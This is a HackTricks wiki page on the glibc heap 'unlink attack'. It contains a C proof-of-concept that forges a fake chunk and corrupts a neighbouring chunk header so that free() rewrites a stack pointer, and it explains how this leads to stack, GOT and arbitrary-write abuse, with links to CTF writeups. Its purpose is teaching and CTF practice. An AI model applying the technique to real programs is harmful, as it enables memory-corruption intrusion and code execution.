 # Unlink Attack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

When this attack was discovered it mostly allowed a WWW (Write What Where), however, some **checks were added** making the new version of the attack more interesting more more complex and **useless**.

### Code Example:

<details>

<summary>Code</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x8000);
  chunk2 = malloc(0x8000);
  printf("Stack pointer to chunk1: %p\n", &chunk1);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk2: %p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->size = 0x8000;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk1[3]: %x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

</details>

* Attack doesn't work if tcaches are used (after 2.26)

### Goal

This attack allows to **change a pointer to a chunk to point 3 addresses before of itself**. If this new location (surroundings of where the pointer was located) has interesting stuff, like other controllable allocations / stack..., it's possible to read/overwrite them to cause a bigger harm.

* If this pointer was located in the stack, because it's now pointing 3 address before itself and the user potentially can read it and modify it, it will be possible to leak sensitive info from the stack or even modify the return address (maybe) without touching the canary
* In order CTF examples, this pointer is located in an array of pointers to other allocations, therefore, making it point 3 address before and being able to read and write it, it's possible to make the other pointers point to other addresses.\
  As potentially the user can read/write also the other allocations, he can leak information or overwrite new address in arbitrary locations (like in the GOT).

### Requirements

* Some control in a memory (e.g. stack) to create a couple of chunks giving values to some of the attributes.
* Stack leak in order to set the pointers of the fake chunk.

### Attack

* There are a couple of chunks (chunk1 and chunk2)
* The attacker controls the content of chunk1 and the headers of chunk2.
* In chunk1 the attacker creates the structure of a fake chunk:
  * To bypass protections he makes sure that the field `size` is correct to avoid the error: `corrupted size vs. prev_size while consolidating`
  * and fields `fd` and `bk` of the fake chunk are pointing to where chunk1 pointer is stored in the with offsets of -3 and -2 respectively so `fake_chunk->fd->bk` and `fake_chunk->bk->fd` points to position in memory (stack) where the real chunk1 address is located:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* The headers of the chunk2 are modified to indicate that the previous chunk is not used and that the size is the size of the fake chunk contained.
* When the second chunk is freed then this fake chunk is unlinked happening:
  * `fake_chunk->fd->bk` = `fake_chunk->bk`
  * `fake_chunk->bk->fd` = `fake_chunk->fd`
* Previously it was made that `fake_chunk->fd->bk` and `fake_chunk->bk->fd` point to the same place (the location in the stack where `chunk1` was stored, so it was a valid linked list). As **both are pointing to the same location** only the last one (`fake_chunk->bk->fd = fake_chunk->fd`) will take **effect**.
* This will **overwrite the pointer to chunk1 in the stack to the address (or bytes) stored 3 addresses before in the stack**.
  * Therefore, if an attacker could control the content of the chunk1 again, he will be able to **write inside the stack** being able to potentially overwrite the return address skipping the canary and modify the values and points of local variables. Even modifying again the address of chunk1 stored in the stack to a different location where if the attacker could control again the content of chunk1 he will be able to write anywhere.
  * Note that this was possible because the **addresses are stored in the stack**. The risk and exploitation might depend on **where are the addresses to the fake chunk being stored**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Although it would be weird to find an unlink attack even in a CTF here you have some writeups where this attack was used:
  * CTF example: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
    * In this example, instead of the stack there is an array of malloc'ed addresses. The unlink attack is performed to be able to allocate a chunk here, therefore being able to control the pointers of the array of malloc'ed addresses. Then, there is another functionality that allows to modify the content of chunks in these addresses, which allows to point addresses to the GOT, modify function addresses to egt leaks and RCE.
  * Another CTF example: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
    * Just like in the previous example, there is an array of addresses of allocations. It's possible to perform an unlink attack to make the address to the first allocation point a few possitions before starting the array and the overwrite this allocation in the new position. Therefore, it's possible to overwrite pointers of other allocations to point to GOT of atoi, print it to get a libc leak, and then overwrite atoi GOT with the address to a one gadget.
  * CTF example with custom malloc and free functions that abuse a vuln very similar to the unlink attack: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
    * There is an overflow that allows to control the FD and BK pointers of custom malloc that will be (custom) freed. Moreover, the heap has the exec bit, so it's possible to leak a heap address and point a function from the GOT to a heap chunk with a shellcode to execute.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
